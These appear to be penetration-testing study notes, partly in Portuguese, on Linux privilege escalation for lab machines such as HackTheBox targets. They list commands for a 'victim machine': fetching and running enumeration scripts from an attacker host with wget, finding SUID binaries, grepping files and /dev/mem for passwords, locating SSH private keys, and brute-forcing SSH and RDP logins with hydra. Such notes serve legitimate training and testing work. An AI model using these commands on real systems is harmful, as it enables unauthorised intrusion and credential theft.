

# Linux Privilege Escalation

### Kernel

Linux Exploit Suggester

```
wget http://10.10.14.17/4-privilege_escalation/les.sh
chmod +x les.sh
./les.sh
```

```
cat /etc/lsb-release
cat /etc/issue
cat /proc/version
hostname
​uname -a
```

[https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/kernel-exploitation](https://gabb4r.gitbook.io/oscp-notes/linux-post-exploitation/kernel-exploitation)\


**Considerar a compilação para sistemas 32 bits**

https://www.geeksforgeeks.org/compile-32-bit-program-64-bit-gcc-c-c/

### Navegar nos diretórios

Seguindo o a mesma premissa do windows, vamos verificar primeiramente o kernel e em sequência gente pode olhar alguns diretórios logo de cara:

```
ls -al /usr/local/
ls -al /usr/local/src
ls -al /usr/local/bin
ls -al /opt/
ls -R -al /home #Fazer recursivamente neste
ls -al /var/
ls -al /usr/src/
```

OS COMANDOS AQUI SÃO EXECUTADOS TODOS NA MÁQUINA VÍTIMA

### SUID e SGID

Com isso podemos executar o arquivo (caso seja um executável) conforme a permissão do dono do arquivo. Ou seja, se o dono do arquivo for root e o SUID bit estiver definido para o binário, podemos realizar a escalação de privilégio.

```
find / -perm -u=s -type f 2>/dev/null
```

```
find / -perm -g=s -type f 2>/dev/null
```

### LinEnum

```
wget http://10.10.14.17/4-privilege_escalation/LinEnum.sh -O le
chmod +x le
./le
```

### bangenum

\
[bangenum.sh](https://raw.githubusercontent.com/bngr/OSCP-Scripts/master/bangenum.sh)

é um resumo do LinEnum.sh

```
wget http://10.10.14.17/4-privilege_escalation/bangenum.sh
sed -i -e 's/\r$//' bangenum.sh
chmod +x bangenum.sh
./bangenum.sh
```

### Local services

```
netstat -nao
```

Vale olhar também se algumas aplicações web estão escondidas no host. Por exemplo:

```
cat /etc/apache2/sites-enabled/*.conf
```

<figure><figcaption><p>Pandora.htb</p></figcaption></figure>

### Crontab (Serviços agendados)

```
cat /etc/crontab
crontab -l
```

### Process Enumeration

[pspy](https://github.com/DominicBreuker/pspy)

<pre><code>wget http://10.10.14.17/4-privilege_escalation/pspy64 -O p64
chmod +x p64
<strong>./p64
</strong></code></pre>

```
wget http://10.10.14.17/4-privilege_escalation/pspy32 -O p32
chmod +x p32
./p32
```

```
ps axu
```

### Reused Password

Tentar usuário e senha sendo o mesmo com hydra, por exemplo

```
hydra -L user.txt -P user.txt 10.10.10.10 ssh
hydra -L users.txt -P users.txt rdp://10.10.10.10
```

Tentar senha de um usuário para outro também e rockyou

### Credentials from config files

Procurar a string PASSWORD ou password dentro de arquivos

```
grep -rnw / -e 'password\|pass\|creds\|senha\|credentials' 2>/dev/null -i
```

```
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
```

In memory passwords

```
strings /dev/mem -n10 | grep -i PASS
```

Generally, source code with hard coded credentials. Search for php files, for exemplo

\
Credentials from local databases

Dump de credenciais do banco de dados

### Sudo access

```
sudo -i
sudo su
sudo -
```

\# Este temos de verificar os binários que podemos executar com permissão de root

```
sudo -l
```

### SSH keys

```
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
```

### Binary exploitation

User Installed Software

Has the user installed some third party software that might be vulnerable? Check it out. If you find anything google it for exploits.

Common locations for user installed software

```
/usr/local/
/usr/local/src
/usr/local/bin
/opt/
/home
/var/
/usr/src/
```

Debian

```
dpkg -l
```

CentOS, OpenSuse, Fedora, RHEL

```
rpm -qa (CentOS / openSUSE )
```

OpenBSD, FreeBSD

```
pkg_info
```

\## PATH Hijack

Vide máquina \[Pandora]\(Pandora.md#PrivEsc)
